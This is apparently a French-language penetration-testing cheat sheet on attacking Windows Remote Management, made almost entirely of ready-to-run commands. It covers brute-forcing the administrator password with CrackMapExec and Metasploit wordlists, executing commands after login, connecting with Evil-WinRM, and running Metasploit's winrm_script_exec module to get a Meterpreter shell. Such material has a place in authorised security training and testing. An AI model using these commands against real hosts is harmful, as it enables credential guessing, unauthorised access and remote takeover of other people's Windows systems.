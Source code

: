 # 🪟 Énumération WinRM

[← Retour à la table des matières](../README.md)

## Ports par défaut : 5985 (HTTP), 5986 (HTTPS)

## Bruteforce WinRM

### CrackMapExec
```bash
# Bruteforce avec CrackMapExec
crackmapexec winrm targetIP -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Exécution de commandes après authentification
crackmapexec winrm targetIP -u administrator -p password -x "sysinfo"
```

### Metasploit
```bash
# Scanner de login WinRM
use auxiliary/scanner/winrm/winrm_login
set RHOSTS targetIP
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

## Exécution de commandes

### Metasploit - WinRM CMD
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS targetIP
set USERNAME administrator
set PASSWORD password
set CMD whoami
run
```

### Evil-WinRM
```bash
# Connexion avec Evil-WinRM
evil-winrm.rb -u username -p 'password' -i targetIP
```

## Meterpreter via WinRM
```bash
# Metasploit exploit pour Meterpreter
use exploit/windows/winrm/winrm_script_exec
set RHOSTS targetIP
set USERNAME administrator
set PASSWORD password
set FORCE_VBS true
run
```